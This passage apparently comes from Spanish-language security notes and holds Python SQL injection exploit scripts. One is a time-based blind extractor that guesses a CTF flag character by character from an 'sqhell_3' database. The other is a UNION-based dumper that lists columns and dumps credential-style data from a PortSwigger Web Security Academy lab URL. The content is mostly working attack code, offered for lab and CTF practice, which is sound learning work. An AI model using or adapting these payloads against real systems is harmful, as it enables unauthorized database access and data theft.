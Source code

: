 ```python
                #sqli = f"""'%3bSELECT CASE WHEN (SELECT SUBSTRING((SELECT datname from pg_database LIMIT 1 offset {j}),{i},1)='{character}') THEN pg_sleep(10) ELSE pg_sleep(0) END-- -"""
                #sqli = f"""admin' AND (SUBSTR((SELECT schema_name FROM information_schema.schemata LIMIT {j},1),{i},1))='{character}'-- -""" # SELECT SUBSTRING
                #sqli = f"""admin' AND (SELECT SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema='sqhell_3' LIMIT {j},1),{i},1))='{character}'-- -"""
                #sqli = f"""admin' AND (SELECT SUBSTRING((SELECT flag FROM sqhell_3.flag LIMIT {j},1),{i},1))='{character}'-- -"""
                sqli = f"""' AND (SELECT sleep(10) FROM flag where (SUBSTR(flag,{i},1)) = '{character}')-- -"""
                p2.status(sqli)
                if check(sqli):
                    name_database += character
                    found_letter = 1
                    p1.status(f"{name_database}")
                    finish = False
                    break
            if found_letter == 0 or finish == True:
                break
        if finish == True:
            p1.failure()
        else:
            p1.success(name_database)

if __name__ == "__main__":
    query()

```

{% tabs %}
{% tab title="In-band" %}
```python
#/usr/bin/python3

import requests, time, sys, signal
import regex as re
import pwn

# Ctrl + C
def def_handler(sig, frame):
    print("\n[!] Saliendo...\n")
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

url = "https://ac651fd21ea7f3348058287a0007000b.web-security-academy.net/"
vulnerable_field = "filter?category="

def dump_info(database, columns, table):
    p1 = pwn.log.progress("Dump info")
    sqli_dump_info = f"""' UNION SELECT concat({columns[0]},':',{columns[1]}),NULL FROM {table},pg_database WHERE datname='{database}'-- -"""
    p1.status(f"Payload -> {sqli_dump_info}")
    r = requests.get(url=url+vulnerable_field+sqli_dump_info)
    info = re.findall("<th>(.*)</th>", r.text)
    for i in info:
        pwn.log.info(i)
    p1.success("Información extraída")

def search_columns(database, table):
    p1 = pwn.log.progress("Search Columns")
    sqli_columns = f"""' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name='{table}'-- -"""
    p1.status(f"Payload -> {sqli_columns}")
```